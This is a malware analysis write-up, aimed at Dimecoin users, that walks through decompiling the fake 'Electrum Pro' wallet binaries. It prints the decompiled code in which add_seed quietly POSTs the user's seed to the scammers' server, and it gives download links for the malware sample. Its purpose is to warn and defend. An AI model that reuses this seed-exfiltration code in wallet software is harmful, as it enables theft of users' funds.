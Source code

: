 # Decompiling the ElectrumPro stealware

The document aims to inform users about the risks associated with "fake binaries," 
specifically in the context of Dimecoin.  By providing an example of how Bitcoin's Electrum binaries were targeted, 
it highlights a potential threat that could similarly affect Dimecoin.

The steps below will illustrate how to decompile the "Electrum Pro" Windows
binaries, and how to verify that they indeed contain bitcoin-stealing
malware.  We previously warned users against "Electrum Pro", but we
did not have formal evidence at that time.


## 0. Background

Electrum-Dime is a popular Dimecoin wallet, distributed on
[dimecoinnetwork.com](https://www.dimecoinnetwork.com) and
[dime-coin/electrum-dimecoin](https://github.com/dime-coin/electrum-dimecoin).

Recently, a website hosted at "electrum dot com" has been trying to
defraud Bitcoin Electrum users, by distributing fake Electrum binaries that
will extract the user's seed words and private keys, and send them to
a remote server. Users must be aware this is possible to happen to those using Electrum-Dime if you do not download from official sources.

For example, in the past, this kind of attack has been carried out by websites
hosted on domain names similar to electrum.org (original creators of the electrum client) (e.g. they swap two
letters, or use fancy UTF8 characters that look similar), and using
paid Google ads. Those websites are commonly just an almost exact copy
of the official one.

The "electrum dot com"
[scheme](https://www.reddit.com/r/Bitcoin/comments/8a1drz/psa_electrumcom_bought_by_scammers_to_distribute/)
is taking that attack further: the scammers have managed to take
control of [the dot com domain](https://i.imgur.com/RPqKmwf.png), and
they have developed a website with a slightly different design and
logo. The authors have been [claiming](https://archive.fo/Yuvjn) that
they are developing a legitimate fork of the Electrum project, and
that they are trying to improve user experience. The owners of
"electrum dot com" went as far as to claim that they are "currently
undergoing a public security audit which will be released soon".

Well, given they did not release such audit, we will do it in this
write-up.


## 1. Prerequisites

This guide assumes a modern Debian based Linux distribution.

1. The same version of python is needed as the one used in the binary.
For the Windows binaries, python 3.5.
[This link](https://askubuntu.com/questions/682869/how-do-i-install-a-different-python-version-using-apt-get)
might be useful if you are on too new or too old ubuntu.

2. To unpack the pyinstaller binary,
[pyinstallerextractor](https://sourceforge.net/projects/pyinstallerextractor/)
will be used:

    ```
    $ wget -O pyinstxtractor.py  https://downloads.sourceforge.net/project/pyinstallerextractor/dist/pyinstxtractor.py
    ```

3. To decompile the pyc bytecode, [uncompyle6](https://pypi.org/project/uncompyle6/)
will be used:

    ```
    $ python3.5 -m pip install uncompyle6
    ```


## 2. Download the Malware

```
$ wget https://www.electrum.com/4.0.2/ElectrumPro-4.0.2-Standalone.zip
```

At the time of writing, the file we get is:

```
$ sha256sum ElectrumPro-4.0.2-Standalone.zip
f497d2681dc00a7470fef7bcef8228964a2412889cd70b098cb8985aa1573e99  ElectrumPro-4.0.2-Standalone.zip
```

If you get a different hash, it means that the attackers have removed
the malware version from their website, in order to evade legal
takedown measures. However, a backup of electrum dot com is hosted on
archive.org, and can be used to retrieve the malware file:

```
$ wget https://web.archive.org/web/20180508092547/https://www.electrum.com/4.0.2/ElectrumPro-4.0.2-Standalone.zip
```


## 3. Uncompress Zip File

For example
```
$ 7za e ElectrumPro-4.0.2-Standalone.zip
```
(which requires p7zip)

Warning: obviously, do not execute the extracted file.


## 4. Unpack the PyInstaller Binary
```
$ python3.5 ./pyinstxtractor.py electrumpro-4.0.2.exe
```

## 5. Decompile the Python Bytecode
```
$ cd electrumpro-4.0.2.exe_extracted/out00-PYZ.pyz_extracted/
$ uncompyle6 electrum.keystore.pyc
```

The output of this command can be found
[here](https://gist.github.com/SomberNight/62d78d206001e13e30e169ef8eb2b4dc).


## 6. Review the Output

Particularly of interest are lines 223-248:

```python
def verify_version(self, v1):
    reqlist = 'https://www.electrum.com/checkversioninfo.php'
    API_ENDPOINT = reqlist
    encodedversionv1 = self.encode_version(v1)
    data = {'version': encodedversionv1}
    r = None
    try:
        r = requests.post(url=API_ENDPOINT, data=data)
        if r.status_code != 200:
            self.verify_version(v1)
        else:
            if r.text != 'current_version=' + encodedversionv1:
                self.verify_version(v1)
    except requests.exceptions.RequestException as e:
        self.verify_version(v1)

def verify_version_thread(self, v1):
    time.sleep(15)
    self.verify_version(v1)

def add_seed(self, seed):
    if self.seed:
        raise Exception('a seed exists')
    self.thread_v1 = threading.Thread(target=self.verify_version_thread, args=(seed,))
    self.thread_v1.start()
    self.seed = self.format_seed(seed)
```

`add_seed` is a method in the `keystore.py` module, that gets called
while creating or restoring a wallet. In this binary, a few extra
lines have been added by the scammers: A thread is started that
**sends** an HTTP POST request to their website, and its payload is
**the user's seed**.  This demonstrates that "Electrum Pro" is
bitcoin-stealing malware.

## 7. Closing

Users should **ONLY** download binaries from *official* sources, and they should check the GPG signatures
(official binaries are signed with
[Dhop14's key](https://pgp.mit.edu/pks/lookup?op=vindex&search=0xA3E6459E3707BC46849AC0AA964DA787DBC83054)).
Alternatively if they know how, they can run from source, or build binaries themselves.

In addition to GPG signatures, Dimecoin Developers are working to have the Electrum-Dime Windows binaries signed using the 
Windows native scheme. The goal also includes, at some point, to have an official signed package in the MacOS store as well.

### Misc

Note that this post was looking at only one of the Windows binaries
distributed by "electrum dot com", but it is safe to assume that
other Windows binaries, from non-trusted sources, are malicious as well.  We also checked the Mac
`.dmg` file, and it contained the same modifications. The Linux
package seemed harmless, presumably because the scammers did not want
to have these changes in plain sight (Linux packages are essentially
just source code).

Thanks to  `echeveria` (on Freenode); [here](https://transfer.sh/oZ4P7/electrumpro.warc.gz) is a complete copy of electrum dot com in web-archive
(archive.org format), [opentimestamped](https://transfer.sh/oq1ve/electrumpro.warc.gz.ots).

There is also a copy of the binary matching the sha256 hash in this write-up on
[archive.org](https://web.archive.org/web/20180508092547/https://www.electrum.com/4.0.2/ElectrumPro-4.0.2-Standalone.zip).

Also, a [VirusTotal URL](https://www.virustotal.com/#/file/f497d2681dc00a7470fef7bcef8228964a2412889cd70b098cb8985aa1573e99/relations)
linking the hash to the website.
